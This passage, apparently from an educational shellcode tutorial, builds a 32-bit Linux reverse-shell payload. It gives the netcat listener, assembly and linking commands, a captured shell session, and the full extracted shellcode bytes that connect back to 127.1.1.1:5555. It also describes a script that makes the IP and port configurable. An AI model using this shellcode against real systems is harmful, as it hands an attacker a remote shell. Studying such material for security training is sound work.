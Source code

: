 Let's open a port:
```console
kali@kali:/tmp$ nc -lvnp 5555
listening on [any] 5555 ...

```

Let's compile and execute it: 
```console
kali@kali:/tmp/$ nasm -f elf32 -o reverse_shell.o reverse_shell.nasm
kali@kali:/tmp/$ ld -m elf_i386 -z execstack -o reverse_shell reverse_shell.o
kali@kali:/tmp/$ ./reverse
```

We get our shell after executing the shellcode:
```console
kali@kali:/tmp$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [127.1.1.1] from (UNKNOWN) [127.0.0.1] 50746
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
whoami
kali

```


# 2) Second step: make the ip and port configuration easy

Before explaining the python script used for this task, we need to retrieve the hexadecimal format of our shellcode. But instead of a simple '\x' before our hexadecimal value, we will need two of them '\\\x'. 

Why ? Because our python script won't interpret our shellcode without this part.

We can easily do that by using the following objdump command:
```console
kali@kali:/tmp$ objdump -d ./reverse_shell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x50\\x50\\x68\\x7f\\x01\\x01\\x01\\x66\\x68\\x15\\xb3\\x66\\x6a\\x02\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc6\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x89\\xf3\\x89\\xe1\\x89\\xef\\x29\\xe7\\x89\\xfa\\xcd\\x80\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xf3\\xfe\\xc9\\xcd\\x80\\xfe\\xc1\\xe2\\xf2\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80"
```

We can now add this shellcode to our python script. This script is pretty simple, it parses the 'shellcode' variable content, look for the '\\x15\\xb3' pattern (which is 5555 in reverse hexadecimal) and replace it by the port value asked by the user. 

It also does the same thing for the IP, it looks for the '\\x7f\\x01\\x01\\x01' pattern (which is 127.1.1.1 in reverse hexadecimal) and replace it by the ip value asked by the user.
